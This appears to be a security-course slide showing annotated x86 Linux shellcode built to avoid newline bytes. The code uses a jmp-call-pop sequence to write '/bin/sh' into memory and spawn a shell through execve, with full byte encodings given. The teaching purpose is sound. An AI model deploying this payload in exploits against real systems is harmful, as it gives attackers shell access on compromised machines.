

# No line breaks shellcode
  eb 1f        jmp    80483d5 <end_sc>
<get_eip>:
  5b           pop    %ebx                 #ebx=writeable memory
  b8 0b 00 00  mov    $0xb,%eax            #eax=11 (sys_execve)
  00
  8d 4b 0c     lea    0xc(%ebx),%ecx       #ecx=ebx+12 (argv)
  31 d2        xor    %edx,%edx            #edx=NULL (envp)
  c7 03 2f 62  movl   $0x6e69622f,(%ebx)   #“/bin”
  69 6e
  c7 43 04 2f  movl   $0x68732f,0x4(%ebx)  #“/sh\x00”
  73 68 00
  89 19        mov    %ebx,(%ecx)          #argv[0]=“/bin/sh”
  89 51 04     mov    %edx,0x4(%ecx)       #argv[1]=NULL
  cd 80        int    $0x80                #sys_execve()
<end_sc>:
  e8 dc ff ff  call   80483b6 <get_eip>
  ff